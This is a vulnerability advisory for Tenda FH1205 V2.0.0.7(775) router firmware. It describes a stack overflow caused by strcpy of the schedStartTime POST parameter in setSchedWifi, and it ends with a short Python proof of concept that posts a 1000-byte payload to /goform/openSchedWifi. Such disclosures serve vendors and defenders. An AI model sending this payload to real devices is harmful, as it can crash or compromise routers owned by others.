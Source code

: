 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided `schedStartTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240319134334271](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134334271.png)

![image-20240319134305657](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134305657.png)

![image-20240319134322756](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134322756.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320110201617](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320110201617.png)
